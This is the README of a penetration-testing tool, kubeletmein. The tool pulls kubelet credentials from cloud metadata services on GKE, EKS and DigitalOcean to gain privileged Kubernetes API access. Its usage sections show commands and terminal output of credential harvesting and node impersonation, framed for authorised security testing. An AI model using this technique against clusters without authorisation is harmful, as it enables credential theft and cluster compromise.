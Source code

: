 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled.

### EKS

EKS support initially added by @airman604 based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This has now been expanded to provide support for various different types of user-data encountered with EKS. Specifically it will support cloud-config format and shell script formats. In the latter case it tries to parse the command line arguments for `/etc/eks/bootstrap.sh` and retrieve the values it needs from there.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

A breaking change in v0.14.0 and upwards is a further consolidation of the command line arguments. There is now just a single `generate` command which will try to autodetect the cloud provider by default. You can override this with the `--provider` flag if required.

### GKE

```
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-node
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

On EKS we can impersonate current node in a single step using IAM authentication.

```
~ $ kubeletmein generate
2021-03-02T21:37:59Z [ℹ]  running autodetect
2021-03-02T21:37:59Z [ℹ]  EKS detected
2021-03-02T21:37:59Z [ℹ]  fetching cluster information from user-data from the metadata service
2021-03-02T21:37:59Z [ℹ]  getting IMDSv2 token
2021-03-02T21:37:59Z [ℹ]  getting user-data
2021-03-02T21:37:59Z [ℹ]  generating EKS node kubeconfig file at: kubeconfig
2021-03-02T21:37:59Z [ℹ]  wrote kubeconfig
2021-03-02T21:37:59Z [ℹ]  then try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests. Follow the instructions at
https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html to download `aws-iam-authenticator`
(and make it executable), then run:

```
kubectl --kubeconfig kubeconfig get pods
```

### DigitalOcean

```
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-04T23:39:46Z [ℹ]  running autodetect
2021-03-04T23:39:46Z [ℹ]  DigitalOcean detected
2021-03-04T23:39:46Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T23:39:46Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T23:39:46Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T23:39:46Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T23:39:46Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-node
2021-03-04T23:39:46Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T23:39:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          6m12s
```

## Testing

### Terraform

To simplify the process, if you want to fire up some clusters to test this on, there are example Terraform configurations provided in the `deploy/terraform` directory. There is one per cloud provider supported. You will need to provide credentials for the provider. If you're not sure how to do this head over to the Terraform website and checkout the relevant provider docs.

- AWS - (https://registry.terraform.io/providers/hashicorp/aws/latest/docs)[https://registry.terraform.io/providers/hashicorp/aws/latest/docs]

- GCP - (https://registry.terraform.io/providers/hashicorp/google/latest/docs)[https://registry.terraform.io/providers/hashicorp/google/latest/docs]

- Digital Ocean - (https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs)[https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs]

Each folder has a `Makefile` you can use if you wish to init, plan and apply the configs. You can update the `terraform.tfvars` with the necessary changes or set `TF_VAR_xx` variables. However you prefer.

The plans will create a cluster and then deploy the `4armed/kubeletmein` container image in a pod. You can then exec into this pod and run the tool. Here is output from running this on GKE.

```bash
$ kubectl exec -ti kubeletmein-vulnerable bash
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-04T22:25:52Z [ℹ]  running autodetect
2021-03-04T22:25:52Z [ℹ]  GKE detected
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-node
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
